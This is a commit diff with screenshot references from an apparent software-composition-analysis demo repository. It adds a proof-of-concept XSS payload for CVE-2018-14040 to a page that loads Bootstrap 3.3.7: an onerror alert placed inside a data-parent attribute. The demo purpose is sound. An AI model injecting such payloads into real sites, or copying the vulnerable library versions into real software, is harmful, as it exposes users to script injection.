

Before and after one commit to samvilleneuve/POC_SCA, a plain HTML site: page bootstrap_Local_3.3.7.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add CVE-2018-14040 - Bootstrap < 3.4.0 || < 4.1.2 - Requires user interaction

```diff
--- a/bootstrap_Local_3.3.7.html
+++ b/bootstrap_Local_3.3.7.html
@@ -7,10 +7,13 @@
     <link rel="stylesheet" href="./assets/bootstrap@3.3.7/dist/css/bootstrap.min.css">
   </head>
   <body>
-    <h1>POC SCA - Bootstrap 3.3.7 Local</h1>
+    <h1>POC SCA - Bootstrap 3.3.7 Local - CVE-2018-14040 - Bootstrap < 3.4.0 || < 4.1.2 - Requires user interaction</h1>
+    <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.2.4/jquery.min.js"></script>
     <script src="./assets/bootstrap@3.3.7/dist/js/bootstrap.min.js"></script>
     <div class="mb-5">
         <a href="." class="btn btn-primary btn-lg px-4">Local files</a>
     </div>
+    <br>
+    <a id="x" data-toggle="collapse" href="#x" data-parent="<img src=x onerror=alert(1) />">XSS</a>
   </body>
 </html>
```
Also changed, not shown: bootstrap_CDN_3.3.7.html (+4 -1 lines), bootstrap_CDN_5.2.3.html (+3 -0 lines), bootstrap_Local_5.2.3.html (+3 -0 lines).
